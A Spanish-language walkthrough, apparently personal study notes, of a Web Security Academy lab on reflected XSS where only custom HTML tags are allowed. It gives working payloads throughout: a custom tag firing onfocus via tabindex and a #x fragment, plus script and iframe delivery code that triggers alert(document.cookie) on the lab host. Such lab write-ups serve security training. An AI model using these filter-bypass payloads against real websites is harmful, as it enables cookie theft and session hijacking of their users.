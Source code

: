 ```yaml
---
layout: default
title: 15 - Reflected XSS into HTML context with all tags blocked except custom ones
---
```


https://www.youtube.com/watch?v=sjs6RS7lURk

Metemos esto en el campo de búsqueda, se va a reflejar en el DOM
```html
<custom-tag onfocus='alert(1)' id='x' tabindex="1">
```

Cuando en la url busquemos https://url#x , estaremos haciendo focus en el elemento y por lo tanto se ejecutará.

Tabindex -> si presiones en la url y le das n veces a tab te salta la alerta, con un custom tag.
==Es necesario usar tabindex ya que custom-tag no es un elemento focusable.==

No podemos usar un autofocus porque no está permitido en los custom-tags, tenemos que usar el attack server  para hacerle llegar al cliente la url que tiene que abrir para que se ejecute el xss:

https://0a8e006b049dd08a80a58f680018009d.web-security-academy.net/?search=%3Ccustom-tag%20onfocus='alert(document.cookie)'%20id='x'%20tabindex=%221%22%3E#x

```html
https://0a8e006b049dd08a80a58f680018009d.web-security-academy.net/?search=<custom-tag onfocus='alert(document.cookie)' id='x' tabindex="1">
```

```html
<script>
location='https://0a8e006b049dd08a80a58f680018009d.web-security-academy.net/?search=%3Ccustom-tag+onfocus%3D%27alert%28document.cookie%29%27+id%3D%27x%27+tabindex%3D%221%22%3E#x'
</script>
```

```html
<iframe 
  src="https://0a8e006b049dd08a80a58f680018009d.web-security-academy.net/?search=%3Ccustom-tag+onfocus%3D%27alert%28document.cookie%29%27+id%3D%27x%27+tabindex%3D%221%22%3E" 
  onload="this.src+='#x">
</iframe>
```



